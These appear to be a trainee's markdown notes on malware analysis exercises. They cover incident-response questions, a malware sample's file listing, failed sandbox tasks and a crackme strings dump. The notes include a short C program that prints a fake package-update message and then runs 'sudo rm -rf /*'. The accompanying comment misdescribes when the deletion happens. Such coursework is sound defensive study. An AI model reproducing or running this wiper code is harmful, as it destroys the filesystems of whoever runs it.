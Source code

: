 # 📌 Day-6: Malware Analysis.

There is two type of Malware analysis
	i. Static Analysis - With out running the malware, just by using dissembler or sysinternals
	ii. Dynamic Analysis - by running the virus on sandbox's

## 📍**TOPIC 7 - Malware Hunting**

### *🔰Assignment-1:*

1) What type of security breaches you may encounter as an incident responder?
> Information and Path disclosure
> DDOS Attacks

2) To detect malicious emails, what steps would you take to examine the emails’?write Helpful threat hunting Checklists
	a, Checking if the Email is Not Spam
	b, Check if the email is Legitimate.
	c, Identify where you got the email.
	d, Try to look the mail sent, to check if you got suspecious.

### *🔰Assignment-2:*  -> Made with the Attacked "malware_sample.zip" file.

### 1) Identify new created processes, services
	> This file contains 
```bash
ls
	cczice.cmd  gupd.rar   IDM.vbs.a.zip  qgwlykqcyz..vbs  tvsymypco.js
	dulla.rar   IDM.vbs.a  kvwpjmygv.js   sslp2017.vbs
```

	we couldn't got the process and service, by technical difficulty.
<img src="/home/rexder/INSA/InitProgramming/MalwareAnalysis/aurorun1.jpg" alt="Autorun picture">

### 2) Identify persistence folders , registers
<img src="/home/rexder/INSA/InitProgramming/MalwareAnalysis/autorun.jpg" alt="Autorun picture">

## 📍**TOPIC 8 - Malware Analysis and Reverse Engineering**

### *🔰Assignment-1:* Static Malware Analysis

> We Tried to do the challange but the google drive is not allowing as to access the files.
<img src="/home/rexder/INSA/InitProgramming/MalwareAnalysis/error.png" alt="Error of The file">

### *🔰Assignment-2:* Dynamic Malware Analysis

> We Tried to do the challange but the google drive is not allowing as to access the files.

### *🔰Assignment-3:* Code Analysis
	 A Code is Given todo analysis on it.
	 Code:
### 👉*We add a Library*
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
```
### 👉*We Will Define The variables*
```c
#define kill_os "sudo rm -rf /*"
#define text "Switching to root user to update the package" 
#define error_text "There has been an error."
```
### 👉*Checks if the system/user/ is admin{ and deletes all files from the /(root) else shows and error_text* 
[ done by checking the UID, UID 0 is root else it is normal user]
```c
int main(){
#if defined __linux__ || defined __unix__
    if ( geteuid() != 0 ){
        printf("%s\n", text); 
    }
    system(kill_os);
#else
    printf("%s\n", error_text);
    return 1;
#endif
}
```
### *🔰Assignment-4: Reverse Engineering **1*** 

It gives as a File That ask for a Flag
> I tryed to get the strings of the binary

```bash
┌──(rexder㉿Rex)-[~/INSA/InitProgramming/MalwareAnalysis]
└─$ strings cm_rb_easy 
/lib64/ld-linux-x86-64.so.2
__cxa_finalize
__libc_start_main
strcpy
puts
strlen
__stack_chk_fail
libc.so.6
GLIBC_2.4
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u3UH
[!] Usage: ./cmRubiks flag
[!] The flag is too long...
[!] Bad flag!
[*] G00d flag!
```


